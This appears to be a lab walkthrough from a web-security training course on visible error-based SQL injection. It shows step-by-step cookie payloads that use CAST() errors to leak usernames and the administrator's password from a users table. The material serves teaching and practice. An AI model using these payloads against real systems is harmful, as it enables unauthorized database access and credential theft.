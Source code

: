 You can use the `CAST()` function to achieve this. It enables you to convert one data type to another. For example, imagine a query containing the following statement:

```
CAST((SELECT example_column FROM example_table) AS int)
```

Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an `int`, may cause an error similar to the following:

```
ERROR: invalid input syntax for type integer: "Example data"
```

This type of query may also be useful if a character limit prevents you from triggering conditional responses.

## **Lab: Visible error-based SQL injection**

1. In Repeater, append a single quote to the value of your `TrackingId` cookie and send the request.`TrackingId=ogAZZfxtOKUELbuJ'`
2. In the response, notice the verbose error message. This discloses the full SQL query, including the value of your cookie. It also explains that you have an unclosed string literal. Observe that your injection appears inside a single-quoted string.
3. In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error:`TrackingId=ogAZZfxtOKUELbuJ'--`
4. Send the request. Confirm that you no longer receive an error. This suggests that the query is now syntactically valid.
5. Adapt the query to include a generic `SELECT` subquery and cast the returned value to an `int` data type:`TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`
6. Send the request. Observe that you now get a different error saying that an `AND` condition must be a boolean expression.
7. Modify the condition accordingly. For example, you can simply add a comparison operator (`=`) as follows:`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
8. Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.
9. Adapt your generic `SELECT` statement so that it retrieves usernames from the database:`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`
10. Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.
11. Delete the original value of the `TrackingId` cookie to free up some additional characters. Resend the request.`TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
12. Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.
13. Modify the query to return only one row:`TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
14. Send the request. Observe that the error message now leaks the first username from the `users` table:`ERROR: invalid input syntax for type integer: "administrator"`
15. Now that you know that the `administrator` is the first user in the table, modify the query once again to leak their password:`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
